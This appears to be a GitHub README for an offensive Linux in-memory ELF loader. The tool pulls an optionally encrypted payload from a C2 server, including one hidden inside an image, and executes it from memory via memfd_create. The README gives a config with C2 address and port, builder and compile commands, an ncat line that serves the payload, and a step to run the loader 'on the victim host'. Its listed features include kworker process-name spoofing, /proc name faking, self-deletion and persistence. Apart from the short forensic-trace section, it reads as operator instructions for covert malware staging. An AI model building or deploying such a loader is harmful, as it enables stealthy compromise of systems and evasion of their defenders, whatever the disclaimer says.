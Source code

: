 ## In-Memory Loader for Linux

This tool implements an **in-memory ELF loader** for Linux systems. It connects to a remote C2 (Command & Control) server over TCP, downloads a ELF payload (optionally encrypted and embedded in a decoy image), and executes it directly from memory using `memfd_create()`.

> ⚠️ **For educational and authorized use only.**
> Do not use this tool on systems you do not own or lack explicit permission to operate on.


### Key Features

* Pulls a payload from a remote C2 or local image file
* Optional AES-256-CBC encryption with a custom marker
* Uses `memfd_create()` to execute from memory with no filesystem drop
* Fake process name via `argv[0]` to evade process listings
* Temporary symlink spoofing to set custom `/proc/<pid>/status` names
* Deletes itself via `unlink("/proc/self/exe")` after startup
* Optional persistence by writing the payload+image to disk

### Configuration & Build

You define all parameters in a `config.json` file. The Python builder script (`builder.py`) handles:

* Payload encryption and embedding
* Loader patching with C constants
* Marker injection and key generation

#### Example `config.json`:

```json
{
  "loader": "loader.c",
  "loader_build": "loader_build.c",
  "image": "original.png",
  "payload": "payload.elf",
  "image_payload": "encrypted.png",
  "password": "encrypted",
  "C2_IP": "127.0.0.1",
  "C2_PORT": 4444,
  "FAKE_PROC": "[kworker/u:1]",
  "FD_NAME": "error",
  "PROC_LINK": "/tmp/.kworker",
  "EXTRACT_PATH": "/tmp/payload.img",
  "MARKER": "ENCRYPTED_PAYLOAD"
}
```

#### Build it:

```bash
python3 builder.py --config config.json
```

### Payload Input Modes

The payload can be retrieved and decrypted in **two ways**:

1. **Remote Plain ELF**
   The payload is served directly over the socket (no encryption).

2. **Remote or Local Encrypted Image**
   The encrypted payload is embedded into an image file and appended after a marker. The loader will:

   * Check for `EXTRACT_PATH` and load it if available
   * Otherwise, connect to the C2 to download it
   * Decrypt it using the marker and AES key

### Execution Modes

The loader supports **three execution modes**, based on configuration:

#### 1. In-Memory Only (Default)

If `PROC_LINK` is **empty**:

* Payload is loaded into memory using `memfd_create()`
* Executed via `fexecve()`
* No disk artifacts remain
* `/proc/<pid>/status` will show a numeric name (e.g., `Name: 5`)

#### 2. Temporary Symlink Execution

If `PROC_LINK` is **set**:

* A symlink is created to `/proc/self/fd/<fd>` (e.g. `/tmp/.cache`)
* The process is executed through the symlink to spoof its name
* The symlink is deleted automatically after a short delay (\~1s)
* This provides stealthier `/proc/<pid>/status` entries

#### 3. Persistence via Local Extraction

If `EXTRACT_PATH` is **set**:

* The encrypted image is stored on disk
* On subsequent runs, the loader will use this instead of redownloading
* Useful in restricted environments where remote access is limited

### Usage

1. **Generate the loader and image**:

```bash
python builder.py --config config.json
```

2. **Compile payload**:

```bash
gcc -o loader loader_build.c -lcrypto
```

3. **Serve the payload (if no EXTRACT\_PATH)**:

```bash
ncat -lvnp 4444 < encrypted.png
```

4. **Execute the loader on the victim host**:

```bash
./loader
```

### Forensics Traces

```bash
$ ps aux | grep kworker
root     1023  0.0  0.0   2344   500 ?        Ss   14:01   0:00 [kworker/0:1-events]
root     1025  0.0  0.0   3040  1428 pts/0    S+   14:01   0:00 grep kworker

$ cat /proc/1023/maps | grep memfd
00400000-00401000 r-xp 00000000 00:01 1234      /memfd:error (deleted)
0041f000-00420000 r--p 0000f000 00:01 1234      /memfd:error (deleted)
```
